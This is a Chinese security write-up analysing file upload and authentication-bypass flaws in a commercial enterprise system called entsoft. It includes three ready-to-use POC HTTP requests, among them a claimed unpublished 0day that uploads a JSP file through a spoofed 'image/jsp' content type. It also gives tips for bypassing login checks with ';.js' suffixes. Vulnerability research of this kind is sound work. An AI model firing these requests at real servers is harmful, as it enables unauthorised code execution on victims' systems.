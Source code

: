 

# 某恩特文件上传漏洞分析 - 先知社区

某恩特文件上传漏洞分析

- - -

## 0X01 前言

最近这段时间某恩特，公众号到处在发，该系统的 0day 漏洞，可谓是漫天飞了，且利用方式也及其简单，本文就是对该系统目前所爆出来的漏洞进行一个漏洞分析，并在最后给出一个该系统未被公布的 0day  
基本上都是这两天的，非常的集中  
[![](assets/1700701273-3e6fb8c3734853f08ca0ad34b4f09ece.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122140854-9d54731a-88fd-1.png)

## 0X02 漏洞分析

我们来看一下最开始原始的 POC

```bash
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Connection: close
Content-Length: 27
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en
Content-Type: application/x-www-form-urlencoded

11111
```

定位到 fileupload.jsp 文件，只能说相当的简单粗暴有没有，获取输入流，获取文件名，直接保存导致任意文件上传的发生  
[![](assets/1700701273-82753a407688282533179e095e41edc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202653-407ea8d4-8869-1.png)  
但实际在测试过程中，发现该漏洞影响范围并不是很多，很多均进行了修复，我在测试过程中仅仅成功了 2 个  
[![](assets/1700701273-ab18e8268057eb33884260dc5ebe14de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202713-4cf432fa-8869-1.png)  
且这套系统对 jsp 之类的脚本文件均做了鉴权，也就是说先前爆出来的漏洞 fileupload.jsp 在开发者允许访问白名单中  
[![](assets/1700701273-1824c48e75f742858d18af4bef5cee56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202741-5d655524-8869-1.png)  
继续深入探索，查看 web.xml，发现 Filter，通过 jd-gui 反编译 common.jar 文件即可查看相关代码  
[![](assets/1700701273-7e51d073aa7eff80d558a0d1f1ca15de.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202802-69d52ff0-8869-1.png)  
从字面意思上，就可以看见排除了如下后缀，和路径文件  
[![](assets/1700701273-ee67c50784d8b923ffa47c9f79dbdce0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202830-7a70f312-8869-1.png)  
其判断鉴权部分模块，通过 contains 来判断是否包含需要排除的字符和路径  
[![](assets/1700701273-04af23f3462d9af4f2e78488c51115d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202854-8909d650-8869-1.png)  
所以访问 jsp 文件或者需要登录的文件我们可以通过在后缀;.js ;.jpg;.html 等方式绕过登录限制  
[![](assets/1700701273-7893173e48aba1521527d41d1d00e5d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202939-a3ebc992-8869-1.png)  
[![](assets/1700701273-4989c2248577df0128c868ae48bcdd24.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121202955-acff1d2c-8869-1.png)  
而 entsoft\_en 也赫然在列，再去看看 entsoft 中的 filupload.jsp，和其他相关的 upload  
[![](assets/1700701273-ceba7bc15978f12ddf5bc73d622e57eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203020-bc1e4a94-8869-1.png)  
依然是个妥妥的任意文件上传，只不过判断了文件是否是 jpg，如果是后缀就变成了 jpeg  
[![](assets/1700701273-885403f6422983ad1c7950b93bcff70d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203041-c894e530-8869-1.png)  
继续查看 web.xml  
[![](assets/1700701273-a6d87ccc2053d63408256e369c601db3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203100-d44603aa-8869-1.png)  
定位到实现类  
[![](assets/1700701273-f9d9b396638bdf36f1db6fe56117f1a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203119-df11a1ea-8869-1.png)  
反编译查看  
[![](assets/1700701273-a15c5545892e47aa394fd87805ab59f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203134-e882b9a8-8869-1.png)  
定位到 MailAction，获取到了三个参数，method，act，eid，后面判断 method 和 act 是对应的值，如果是则跳到对应的实现方法中，比如 saveAttaFile  
我们主要看获取文件名的操作，以及文件名是否可控，可以看见，并未对文件后缀进行任何过滤，导致任意文件上传的发生  
[![](assets/1700701273-707ad269227853d4adc7e7265495af17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203205-fb02ee18-8869-1.png)  
利用 POC

```bash
POST /entsoft/MailAction.entphone;.png?act=saveAttaFile HTTP/1.1
Host: xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 179

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="beautif.js"
Content-Type: xxx/txt

1
------WebKitFormBoundarye8FPHsIAq9JN8j2A--
```

POC 中的;.png 同上，绕过登录限制，继续查看该代码文件发现其 AppUpload 方法也存在文件上传功能，其文件名判断了 contentype 是否不为空，以及 contentype 是否包含 image，之后在取 contentype 中的值作为后缀，我们可以通过 image/jsp 绕过  
[![](assets/1700701273-b72e28c742d9ce71a85d223ee02b3e72.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203234-0c148770-886a-1.png)  
[![](assets/1700701273-57df27dd911b99292c544c573a22ff70.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203251-160acaa0-886a-1.png)  
[![](assets/1700701273-1dc9286a9620241052964c27214de3b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231121203317-25cd34c8-886a-1.png)  
最新的 POC

```bash
POST /entsoft/MailAction.entphone;.js?act=AppUpload&bodyID=1 HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------255059884712683317431739889351
Content-Length: 259
Origin: 
Connection: close
Referer: 
Cookie: 

-----------------------------255059884712683317431739889351
Content-Disposition: form-data; name="file"; filename="1.png"
Content-Type: image/jsp

<%= (new java.util.Date()).toLocaleString()%>
-----------------------------255059884712683317431739889351--
```

其他 Action 中基本上只要有上传基本上都有该类问题，比如/entsoft/CustomerAction.entphone;.js?method=loadFile，注入什么的也不少，该有的漏洞他都有，主要该系统影响的范围也不小，基本上都是通杀的类型。

## 0X03 总结

感觉最值得利用的一点就是鉴权绕过的方式，我们在黑盒测试的过程中，可以多试试;.js ;.png 之类的方式，以及通过/xxx 可访问的路径/../鉴权路径目录穿越的方式，说不定也有奇效，总之需要不断的学习呀，如有问题欢迎各位师傅指正，图片打码有点问题，感谢先知社区的审核大大如此认真负责，比心
